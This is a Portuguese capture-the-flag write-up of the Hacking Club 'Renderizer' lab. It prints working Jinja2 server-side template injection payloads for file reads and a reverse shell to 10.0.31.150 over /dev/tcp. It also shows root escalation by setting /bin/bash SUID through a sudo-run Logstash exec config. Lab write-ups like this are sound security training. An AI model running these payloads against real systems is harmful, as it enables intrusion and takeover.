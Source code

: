 ```yaml
---
title: 'Renderizer Writeup'
date: '2024-07-13'
tags: ['SSTI', 'RCE', 'Linux']
draft: false
summary: 'Explorando uma vulnerabilidade de SSTI em uma aplicação de live rendering, é possível obter RCE no servidor. O privilege escalation envolve permissões de sudo no logstash.'
images: ['/static/images/renderizer-writeup-images/1.png']
authors: ['default']
---
```


![Writeup-Renderizer 1](/static/images/renderizer-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Renderizer

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f7:37:6a:01:16:84:08:ea:92:19:b0:b3:ba:22:71:34 (ECDSA)
|_  256 59:00:f0:d6:c4:d4:f3:91:85:8f:1a:d2:1d:29:87:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Renderizer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Somente as portas 22(SSH) e 80 (HTTP) estão abertas.

---

![Writeup-Renderizer 2](/static/images/renderizer-writeup-images/2.png)

`sudo vim /etc/hosts`
![Writeup-Renderizer 3](/static/images/renderizer-writeup-images/3.png)

### [http://renderizer.hc](http://renderizer.hc)

![Writeup-Renderizer 4](/static/images/renderizer-writeup-images/4.png)
![Writeup-Renderizer 5](/static/images/renderizer-writeup-images/5.png)

Ele diz que é um jinja2 , a gente pode deduzir que se trata de um SSTI (Server-Side Template Injection), pra testar eu mandei um `{{7*7}}.`

![Writeup-Renderizer 6](/static/images/renderizer-writeup-images/6.png)

Depois de fazer algumas pesquisas , eu achei uma payload pra leitura de arquivos que funcionou.

`{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}`

![Writeup-Renderizer 7](/static/images/renderizer-writeup-images/7.png)

john:x:1001:1001::/home/john:/bin/bash e ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash são os usuários.

Tentei utilizar o mesmo pra pegar a chave ssh , mas não deu:

`{{ get_flashed_messages.globals.builtins.open("/home/john/.ssh/id_rsa").read() }}`

![Writeup-Renderizer 8](/static/images/renderizer-writeup-images/8.png)

`{{ "teste".class.mro[1].subclasses() }}` tentei usar essa payload pra verificar as subclasses presentes , mas tava dando um erro acredito que o servidor tenha algum tipo de proteção, então eu fui atrás de outro jeito de verificar.

E consegui assim:

```
{% for subclass in ''.__class__.__mro__[1].__subclasses__() %}
    <h2>{{ subclass.__name__ }}</h2>
    <ul>
    {% for attr in subclass.__dict__.keys() %}
        <li>{{ attr }}</li>
    {% endfor %}
    </ul>
{% endfor %}
```

![Writeup-Renderizer 9](/static/images/renderizer-writeup-images/9.png)

Agora é achar a posição do array do Popen pra ganhar um RCE.

## Initial Access

Payload do mano vert16x pra achar a posição do array do Popen automaticamente nos possibilitando um RCE.

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("/bin/bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'").read().zfill(417)}}{%endif%}{% endfor %}
```

![Writeup-Renderizer 10](/static/images/renderizer-writeup-images/10.png)

## Privillege Escalation

`cat /etc/crontab`

![Writeup-Renderizer 11](/static/images/renderizer-writeup-images/11.png)
Eu pensei incialmente em simplesmente alterar a pasta webapp com os comandos abaixo mas não funcionou, por alguma razão a cron não executava.

```
rm -rf webapp
echo '#!/bin/bash' > /home/john/webapp
echo 'chmod u+s /bin/bash' >> /home/john/webapp
chmod +x webapp
```

Então eu fui ver a pasta que estava sendo feito o backup `/var/backups`

![Writeup-Renderizer 12](/static/images/renderizer-writeup-images/12.png)

Se eu tentar dar o `unzip webapp-03-01-2024.zip` ele da permission denied

![Writeup-Renderizer 13](/static/images/renderizer-writeup-images/13.png)

Então a gente precisa copiar esse `webapp-03-01-2024.zip` pra pasta tmp
`cp webapp-03-01-2024.zip /tmp`

Na pasta tmp basta a gente unzipar o arquivo:

`unzip webapp-03-01-2024.zip`

![Writeup-Renderizer 14](/static/images/renderizer-writeup-images/14.png)

Depois de unzipar a pasta webapp tem uma variavel de ambiente `.env` que por sinal é a mesma senha do usuario que estamos logado `john` .

![Writeup-Renderizer 15](/static/images/renderizer-writeup-images/15.png)

`john:bwsTuCtSYue7G4`

`sudo -l`
![Writeup-Renderizer 16](/static/images/renderizer-writeup-images/16.png)

Pra explorar o logstash a gente precisa criar um arquivo `.yaml` malicioso.

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash)

![Writeup-Renderizer 17](/static/images/renderizer-writeup-images/17.png)

```
input {
  exec {
    command => "chmod u+s /bin/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}

```

depois é so rodar o comando , `sudo /root/logstash/bin/logstash -f /tmp/webapp/teste.yaml`

Demora alguns segundos pra rodar:

![Writeup-Renderizer 18](/static/images/renderizer-writeup-images/18.png)

E o /bin/bash vai virar SUID após a execução do logstash.

![Writeup-Renderizer 19](/static/images/renderizer-writeup-images/19.png)
![Writeup-Renderizer 20](/static/images/renderizer-writeup-images/20.png)

## Proof

![Writeup-Renderizer 21](/static/images/renderizer-writeup-images/21.png)
